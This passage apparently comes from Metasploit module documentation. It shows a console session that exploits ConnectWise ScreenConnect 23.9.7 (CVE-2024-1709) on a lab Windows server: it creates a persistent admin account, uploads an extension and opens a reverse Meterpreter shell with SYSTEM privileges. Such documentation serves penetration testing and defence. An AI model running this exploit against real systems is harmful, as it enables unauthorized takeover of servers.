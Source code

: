 ```
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > check
[*] 192.168.86.50:8040 - The target appears to be vulnerable. ConnectWise ScreenConnect 23.9.7 running on Windows.
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ConnectWise ScreenConnect 23.9.7 running on Windows.
[*] Created account: jwrrtiro:Jd6PXdiH2MwGw2Nq (Note: This account will not be deleted by the module)
[*] Uploaded Extension: c9bf4ee9-90b2-1ba7-ae4c-54ba6ee36a81
[*] Removing Extension: c9bf4ee9-90b2-1ba7-ae4c-54ba6ee36a81
[*] Sending stage (201798 bytes) to 192.168.86.50
[+] Deleted C:\Program Files (x86)\ScreenConnect\App_Extensions\nayjdyti.ashx
[*] Meterpreter session 3 opened (192.168.86.42:4444 -> 192.168.86.50:50550) at 2024-02-22 14:45:01 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > pwd
C:\Windows\system32
meterpreter > exit
[*] Shutting down session: 3

[*] 192.168.86.50 - Meterpreter session 3 closed.  Reason: User exit
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) >
```

#### Linux Command
